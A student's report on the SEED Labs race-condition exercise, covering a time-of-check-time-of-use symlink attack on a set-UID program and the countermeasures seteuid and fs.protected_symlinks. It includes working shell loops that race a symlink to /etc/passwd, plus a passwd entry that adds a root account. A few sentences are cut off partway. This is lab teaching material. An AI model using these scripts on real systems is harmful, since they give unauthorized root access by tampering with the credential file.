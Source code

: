 ```yaml
---
title: Race-Condition
date: 2020-01-25 00:09:51
tags: [Security]
categories: [Security]
toc: true
comments: true
---
```

<!-- more -->
![](images/Race-Condition/Platform-SEEDUbuntu16__04--32bit-green.svg)  ![](images/Race-Condition/SEED-SoftwareSecurityLab-brightgreen.svg)

> This is report of SEED Lab report.

Table of Contents
=================

* [Task 1: Choosing Our Target](#task-1-choosing-our-target)
* [Task 2: Launching the Race Condition Attack](#task-2-launching-the-race-condition-attack)
* [Task 3 Countermeasure: Applying the Principle of Least Privilege](#task-3-countermeasure-applying-the-principle-of-least-privilege)
* [Task 4: Countermeasure: Using Ubuntu’s Built-in Scheme](#task-4-countermeasure-using-ubuntus-built-in-scheme)
* [About fs.protected_symlinks](#about-fsprotected_symlinks)
* [Test with fs.protected_symlinks=1](#test-with-fsprotected_symlinks1)
    * [实验原理:](#实验原理)
* [Official reference](#official-reference)


## Task 1: Choosing Our Target

```SHELL
$ sudo sysctl -w fs.protected_symlinks=0
```

Get the `vulp.c`  and compile it.

```shell
Ta
$ sudo chmod 4755 vulp
```

Analyze the program. Since it is set-UID program, it’s eUID is 0. Then it can overwrite any file. When it wants to modify some file, the program will check whether it has the privilege to do so. Hence there is a short time slice between it accessing the privilege and write the file. If we change the target file it wants to write, then we can overwrite some important file.

Our target is to add a root user, `test`, into the `/etc/passwd`.

```shell
test:U6aMy0wojraho:0:0:test:/root:/bin/bash
```

After test, we can find that if we add content above to `/etc/passwd`, then we can login test as root user.

So our target is to create a symbol link to `/etc/passwd`.

## Task 2: Launching the Race Condition Attack

We need run two scripts parallel.

```shell
# attack.sh
#!/bin/bash
CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
ln -sf /home/seed/Documents/SoftwareSecurity/raceCondition/tmp /tmp/XYZ
ln -sf /etc/passwd /tmp/XYZ
new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"

```

Another script:

```shell
# check.sh
#!/bin/bash
CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
./vulp < passwd_input
new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"
```

Before attack, ensure that the `/tmp/XYZ` does not exist and the `password_input` has been created.

then run two scripts you can find it succeeded.

```shell
$ sudo bash attack.sh
$ sudo bash check.sh
```



## Task 3 Countermeasure: Applying the Principle of Least Privilege

The fundamental problem of the vulnerable program in this lab is the violation of the Principle of Least Privilege.  The programmer does understand that the user who runs the program might be too powerful, so he/she introduced `access()`to limit the user’s power. However, this is not the proper approach. A better approach is to apply the Principle of Least Privilege;  namely,  if users do not need certain privilege,  the privilege needs to be disabled. We can use set-euid system call to temporarily disable the root privilege, and later enable it if necessary. Please use this approach to fix the vulnerability in the program, and then repeat your attack. Will you be able to succeed? Please report your observations and provide explanation.

Change the program like below, then compile and attack using this program again. We can find it failed. That is because the `seteuid()` function introduced a code segment where `access()` and `open()` would share the same privilege, so the try would fail.

```c
/* vulp.c */
#include <stdio.h>
#include<unistd.h>
#include<sys/types.h>


int main()
{
	char * fn = "/tmp/XYZ";
	char buffer[60];
	FILE *fp;
	/* get user input */
	scanf("%50s", buffer );

	uid_t e_uid = geteuid(); //new add
	seteuid(getuid()); //new add

	if(!access(fn, W_OK)){ 
		fp = fopen(fn, "a+"); 
		fwrite("\n", sizeof(char), 1, fp);
		fwrite(buffer, sizeof(char), strlen(buffer), fp);
		fclose(fp);
	}
	else printf("No permission \n");
	seteuid(e_uid); //new add
}
```

## Task 4: Countermeasure: Using Ubuntu’s Built-in Scheme

Ubuntu 10.10 and later come with a built-in protection scheme against race condition attacks.  In this task,you need to turn the protection back on using the following commands:

```shell
$ sudo sysctl -w kernel.yama.protected_sticky_symlinks=1
$ sudo sysctl -w fs.protected_symlinks=1
```

Conduct your attack after the protection is turned on.  Please describe your observations.  Please also explain the followings:  

(1) How does this protection scheme work?  

(2) What are the limitations of this scheme?

It will failed, but the details why this scheme would work is still not clear enough.

## About `fs.protected_symlinks`

= 0 means no limitation about normal users creating soft links.

=1 means only when the UID of the target equals to the soft link or the

## Test with `fs.protected_symlinks=1`

### 实验原理:

>##### Official reference
>
>A long-standing class of security issues is the symlink-based time-of-check-time-of-use race, most commonly seen in world-writable directories like /tmp. The common method of exploitation of this flaw is to cross privilege boundaries when following a given symlink (i.e. a root process follows a symlink belonging to another user). For a likely incomplete list of hundreds of examples across the years, please see: http://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=/tmp
>
>When set to “0”, symlink following behavior is unrestricted.
>
>When set to “1” symlinks are permitted to be followed **only when outside a sticky world-writable directory, or when the uid of the symlink and follower match, or when the directory owner matches the symlink’s owner.**
>
>This protection is based on the restrictions in Openwall and grsecurity.

重点:

When set to “1” symlinks are permitted to be followed **only when outside a sticky world-writable directory, or when the uid of the symlink and follower match, or when the directory owner matches the symlink’s owner.**




